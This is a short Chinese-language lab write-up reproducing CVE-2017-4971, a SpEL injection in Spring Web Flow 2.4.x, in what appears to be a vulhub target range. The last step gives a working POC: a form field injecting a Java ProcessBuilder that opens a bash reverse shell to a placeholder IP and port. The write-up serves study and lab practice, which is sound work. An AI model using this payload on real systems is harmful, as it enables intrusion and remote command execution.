








# Spring Web Flow 远程代码执行（CVE-2017-4971）by [scholar](https://github.com/Frivolous-scholar) 

## 概述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的 field，将导致一个 SpEL 表达式注入漏洞，最终造成任意命令执行。

## 漏洞复现

1、首先打开靶场。

2、输入 login 进入登录页面，然后进行登录，左边有账号密码。

3、输入账号密码进行登录。

4、访问 /hotels/1 目录，并点击 Book Hotel

5、随便输入内容，并点击 Proceed

6、点击 Confirm 并进行抓包。

7、利用服务器对本地端口进行监听。

8、利用 POC 反弹 shell，POC如下。

`_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/IP/PORT+0>%261")).start()=vulhub`

9、反弹成功，查看 Flag.

